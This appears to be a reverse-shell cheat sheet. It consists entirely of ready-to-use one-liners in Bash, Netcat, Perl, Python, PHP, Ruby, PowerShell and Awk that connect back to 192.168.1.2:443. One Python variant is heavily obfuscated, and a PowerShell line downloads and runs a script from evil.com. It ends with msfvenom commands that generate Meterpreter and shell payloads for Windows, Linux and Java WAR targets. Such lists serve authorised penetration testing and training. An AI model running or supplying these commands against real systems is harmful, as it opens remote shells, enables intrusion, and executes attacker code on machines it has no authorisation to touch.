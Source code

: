* Bash

  ```bash
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1
  ```

* Netcat

  ```bash
  nc -e /bin/sh 192.168.1.2 443```

  nc -e /bin/bash 192.168.1.2 443```

  nc -c bash 192.168.1.2 443```

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f```

  nc.exe -e cmd 192.168.1.26 443
  ```

* Perl

  ```perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

* Python

  ```export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'```

  ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

  ```C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.1.2', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"```

* PHP

  ```php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

  ```php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'```

* Ruby

  ```ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

  ```ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```

  ```ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```

* Xterm

  ```xterm -display 192.168.1.2:443```


* Ncat

  ```ncat 192.168.1.2 443 -e /bin/bash```

* Powershell

  ```powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

  ```powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```

  ```powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')```

* Awk

  ```awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```



# Msfvenom

* War

  ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war ```

## Windows

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

## Linux

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
